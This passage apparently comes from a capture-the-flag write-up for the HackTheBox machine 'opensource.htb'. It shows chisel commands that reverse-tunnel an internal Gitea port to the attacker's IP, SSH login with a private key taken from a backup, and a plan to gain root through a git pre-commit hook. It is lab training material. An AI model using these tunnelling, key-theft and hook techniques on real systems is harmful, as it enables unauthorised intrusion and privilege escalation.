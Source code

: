 Port 3000 is running an HTTP server and we can connect to it from the docker container because it is inside the network and not filtered by a firewall.

Now we can port forward/tunnel port 3000 to our machine and access it with the browser.
## Tunneling in
Found tunneling tool [chisel](https://github.com/jpillora/chisel) which allowed me to create a tunnel to `172.17.0.1:3000` with reverse port forwarding.

This was done by:
* Starting a chisel server on attack machine:
```bash
chisel server --reverse --port 9999
```
* Connecting from victim machine
```bash
chisel client 10.10.14.57:9999 R:3000:172.17.0.1:3000
```

And now I could access port 3000 on the box by simply going to `localhost:3000` on my attacker machine!

{{< admonition info >}} 
What happend here is the client connected to the server and forwarded `172.17.0.1:3000` to `10.10.14.57:3000` which is my machine.
{{< /admonition >}}

Navigating to it we find that it is running `gitea` which is like github but hosted locally.

Signing in with the creds found before. We find a backup folder with a private ssh key.

Stole that key and connected to user dev01
```shell
ssh -i dev01.key dev01@opensource.htb
```

> **User pwned!**

---

# Privilege Escalation

{{< admonition info >}}
Googling the version of gitea we are running returns that it is vulnerable to privilege escalation (CVE-2022-30781) but that was a rabbit hole.
{{< /admonition >}}

## Checking procceses
Dropped [pspy](https://github.com/DominicBreuker/pspy) and ran for a while to check what proccess are being ran.

We can notice that there is a custom script ran by root that is commiting and pushing the home directory of `dev01`. We can't modify this script becuase we don't have write permissions on it.

Since the commiting is done by root we can add a pre-commit hook in `.git/hooks/pre-commit`. We enable this hook by renaming `.git/hooks/pre-commit.sample` and removing the `.sample` from the end.
